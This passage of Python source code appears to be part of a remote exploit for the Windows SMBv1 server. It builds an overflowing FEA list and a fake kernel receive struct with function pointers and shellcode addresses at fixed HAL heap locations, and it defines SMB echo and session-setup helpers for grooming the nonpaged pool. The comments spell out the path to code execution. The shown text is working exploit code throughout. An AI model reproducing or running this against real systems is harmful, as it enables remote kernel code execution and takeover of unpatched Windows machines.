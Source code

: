 ```
#   - x64: below fea will be copy to offset 0x11000 of overflow buffer
#   - x86: below fea will be copy to offset 0x10ff8 of overflow buffer
feaList += pack('<BBH', 0, 0, len(fakeSrvNetBuffer)-1) + fakeSrvNetBuffer # -1 because first '\x00' is for name
# stop copying by invalid flag (can be any value except 0 and 0x80)
feaList += pack('<BBH', 0x12, 0x34, 0x5678)


# fake struct for SrvNetWskReceiveComplete() and SrvNetCommonReceiveHandler()
# x64: fake struct is at ffffffff ffd00010
#   offset 0xa0:  LIST_ENTRY must be valid address. cannot be NULL.
#   offset 0x08:  set to 3 (DWORD) for invoking ptr to function
#   offset 0x1d0: KSPIN_LOCK
#   offset 0x1d8: array of pointer to function
#
# code path to get code exection after this struct is controlled
# SrvNetWskReceiveComplete() -> SrvNetCommonReceiveHandler() -> call fn_ptr
fake_recv_struct = pack('<QII', 0, 3, 0)
fake_recv_struct += '\x00'*16
fake_recv_struct += pack('<QII', 0, 3, 0)
fake_recv_struct += ('\x00'*16)*7
fake_recv_struct += pack('<QQ', TARGET_HAL_HEAP_ADDR_x64+0xa0, TARGET_HAL_HEAP_ADDR_x64+0xa0)  # offset 0xa0 (LIST_ENTRY to itself)
fake_recv_struct += '\x00'*16
fake_recv_struct += pack('<IIQ', TARGET_HAL_HEAP_ADDR_x86+0xc0, TARGET_HAL_HEAP_ADDR_x86+0xc0, 0)  # x86 LIST_ENTRY
fake_recv_struct += ('\x00'*16)*11
fake_recv_struct += pack('<QII', 0, 0, TARGET_HAL_HEAP_ADDR_x86+0x190)  # fn_ptr array on x86
fake_recv_struct += pack('<IIQ', 0, TARGET_HAL_HEAP_ADDR_x86+0x1f0-1, 0)  # x86 shellcode address
fake_recv_struct += ('\x00'*16)*3
fake_recv_struct += pack('<QQ', 0, TARGET_HAL_HEAP_ADDR_x64+0x1e0)  # offset 0x1d0: KSPINLOCK, fn_ptr array
fake_recv_struct += pack('<QQ', 0, TARGET_HAL_HEAP_ADDR_x64+0x1f0-1)  # x64 shellcode address - 1 (this value will be increment by one)


def getNTStatus(self):
	return (self['ErrorCode'] << 16) | (self['_reserved'] << 8) | self['ErrorClass']
setattr(smb.NewSMBPacket, "getNTStatus", getNTStatus)

def sendEcho(conn, tid, data):
	pkt = smb.NewSMBPacket()
	pkt['Tid'] = tid

	transCommand = smb.SMBCommand(smb.SMB.SMB_COM_ECHO)
	transCommand['Parameters'] = smb.SMBEcho_Parameters()
	transCommand['Data'] = smb.SMBEcho_Data()

	transCommand['Parameters']['EchoCount'] = 1
	transCommand['Data']['Data'] = data
	pkt.addCommand(transCommand)

	conn.sendSMB(pkt)
	recvPkt = conn.recvSMB()
	if recvPkt.getNTStatus() == 0:
		print('got good ECHO response')
	else:
		print('got bad ECHO response: 0x{:x}'.format(recvPkt.getNTStatus()))


def createSessionAllocNonPaged(target, size):
	# There is a bug in SMB_COM_SESSION_SETUP_ANDX command that allow us to allocate a big nonpaged pool.
```